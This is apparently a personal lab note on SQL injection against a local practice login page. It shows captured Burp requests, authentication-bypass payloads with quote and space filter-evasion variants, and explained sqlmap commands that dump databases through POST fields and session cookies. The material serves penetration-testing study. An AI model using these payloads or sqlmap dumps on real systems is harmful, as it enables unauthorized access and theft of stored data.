 
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## SQL Injection Checklist for Login Page : 

1. **Test Default Login :**

	- Since i am in the lab, the default creds are : `jeremy:jeremy`.

	- **In Burp Suite :**

```

## REQUEST

POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy

## RESPONSE


HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 04:48:21 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Set-Cookie: session=6967cabefd763ac1a1a88e11159957db; expires=Sat, 02-Aug-2025 05:48:21 GMT; Max-Age=3600
Refresh: 0; url=/labs/i0x02.php
Vary: Accept-Encoding
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: *
Content-Length: 1928
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


```

2. **Confirm SQLi Vulnerability (Authentication Bypass) :**

```
## - Test Basic Bypass in Repeater:

username=admin' OR 1=1#&password=jeremy
username=jeremy' OR 1=1#&password=jeremy
username=jeremy&password=' OR ''='# 
username=admin' OR '1'='1 -- &password=jeremy
username=jeremy%27%20OR%201=1%23&password=jeremy (encoded)

## - Handle Filters:
	- If ' is blocked, try:
	
username=admin" OR "1"="1#&password=jeremy
username=jeremy%27%20OR%20%271%27=%271%23&password=jeremy

	- If spaces are blocked, use /**/:
	
username=admin'/**/OR/**/1=1#&password=jeremy
```


## Using SQLMAP : 

```
POST /labs/i0x02.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/i0x02.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=jeremy
```

### ✅ 1. Raw Request File

`sqlmap -r request.txt --level=5 --risk=3 --batch --dump`
#### 🔍 What it does :

- Loads a **raw HTTP request** (GET or POST) from a file (`request.txt`)
- sqlmap parses everything: URL, headers, cookies, body
- Tests all parameters inside request (GET, POST, Cookies, etc.)
- Dumps data if injection is found
#### ✅ Use this when :

- - You captured a full login or post-auth request in Burp
- The injection point is deep (e.g. cookie, header, POST field)
- You want **complete control over the entire request**

### ✅ 2. Cookie Injection Without Marker

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=6967cabefd763ac1a 1a88e11159957db" --level=5 --risk=3 --dump --batch`
#### 🔍 What it does :

- Targets SQLi at the URL: `/labs/i0x02.php`
- Uses **your provided session cookie**
- **BUT** doesn't specify where in the cookie to inject (no `*`)
- sqlmap **guesses** the injection point
#### ⚠️ Not ideal when :

- You **already know** the cookie is injectable `→` use `*` instead!

### ✅ 3. Cookie Injection With Explicit Marker

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=1*" --level=5 --risk=3 --technique=BEUSTQ --dump`
#### 🔍 What it does :

- Tells sqlmap: "**inject right at the `*` in the cookie value**"
- Focuses only on the **cookie injection point**
- Uses all techniques: Boolean, Error, UNION, Stacked, Time-based, Second-order
- Dumps data if vulnerable
#### ✅ Use this when :

- You know the **session cookie is injectable**
- You want to **speed up testing** and be precise

### ✅ 4. POST Authenticated Attack with Injection Marker | POST + Cookie Auth Attack

`sqlmap -u "http://localhost/labs/i0x02.php" --cookie="session=6967cabefd763ac1a1a88e11159957db*" --data="username=jeremy&password=jeremy" --level=5 --risk=3 --technique=BEUSTQ --batch`
#### ### 🔍 What it does:

- Injects **in the cookie**, at the exact `*` location
- Sends **POST data** to simulate a login (`username=jeremy&password=jeremy`)
- Used on **authenticated pages**
- Enables all techniques and batch mode
### ✅ Use this when:

- You're attacking a **login-required** endpoint
- The cookie is **authenticated session**
- You want to **target post-login SQLi in cookies**